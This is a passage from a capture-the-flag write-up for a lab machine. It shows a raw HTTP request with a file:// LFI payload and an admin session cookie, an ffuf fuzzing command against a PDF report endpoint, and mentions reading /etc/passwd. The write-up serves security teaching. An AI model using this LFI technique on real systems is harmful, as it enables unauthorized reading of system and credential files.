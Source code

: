 Note that `/etc/passwd` contains no non-default users, which could indicate that the application is running inside a container. I will attempt to confirm this later, but for now, I'll continue enumerating the filesystem and change the header, as my intuition tells me that I'm close to establishing a foothold.

## Foothold

### Filesystem Enumeration via LFI

To enumerate the filesystem through LFI, I began by fuzzing the endpoint with specialized wordlists. I crafted a raw HTTP request to use with the following `ffuf` command:

```http
POST /create_pdf_report HTTP/1.1
Host: dashboard.comprezzor.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: http://dashboard.comprezzor.htb
Connection: keep-alive
Referer: http://dashboard.comprezzor.htb/create_pdf_report
Cookie: user_data=eyJ1c2VyX2lkIjogMSwgInVzZXJuYW1lIjogImFkbWluIiwgInJvbGUiOiAiYWRtaW4ifXwzNDgyMjMzM2Q0NDRhZTBlNDAyMmY2Y2M2NzlhYzlkMjZkMWQxZDY4MmM1OWM2MWNmYmVhMjlkNzc2ZDU4OWQ5
Upgrade-Insecure-Requests: 1

report_url=+file://FUZZ
```

```bash
ffuf -request lfi.http -request-proto http -w /usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt -fs 1669,1675
```

- 1669 - `Content-Length` of `Invalid URL` response.
- 1675 - `Content-Length` of `Unexpected error!` response.

![ffuf-lfi](attachments/ffuf-lfi.png)
